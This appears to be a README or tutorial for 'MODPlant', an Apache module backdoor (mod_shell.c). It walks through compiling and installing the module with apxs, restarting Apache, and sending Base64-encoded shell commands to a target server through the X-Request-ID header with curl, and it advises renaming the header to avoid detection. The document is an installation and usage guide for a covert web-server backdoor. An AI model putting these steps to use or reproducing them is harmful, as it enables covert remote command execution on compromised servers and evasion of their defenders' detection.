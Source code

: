 ### Prerequisites Installation

First of all, install the Apache development tools required for module compilation:

```bash
sudo apt update
sudo apt install apache2-dev -y
```

This installs the `apxs` (Apache Extension Tool) utility, which is essential for building and installing Apache modules.

### Module Compilation and Installation

![MODPlant Install](/modplant_install.png)

Compile and install the module with a single command:

```bash
sudo apxs -i -a -c mod_shell.c
```

This command performs three critical operations:

1. **Compilation**: Converts our C source code into a `.so` (shared object) library
2. **Installation**: Copies the compiled module to Apache's module directory
3. **Configuration**: Automatically adds a `LoadModule` directive to Apache's configuration

### Service Restart

![Apache Service](/apache-service-check.png)

After executing the `apxs` command, Apache needs to be restarted to load the new module:

```bash
sudo systemctl restart apache2
```

Verify the service is running correctly:

```bash
sudo systemctl status apache2
```

### Testing the Backdoor

![PoC Execution](/modplant-poc-exec.png)

Now we can interact with our backdoor. Commands are sent Base64-encoded via the `X-Request-ID` HTTP header. The header name can be modified in `mod_shell.c` to avoid detection.

Example using curl:

```bash
# Encode command: echo "whoami" | base64
# Result: d2hvYW1p

curl -H "X-Request-ID: d2hvYW1p" http://target-server.com/
```
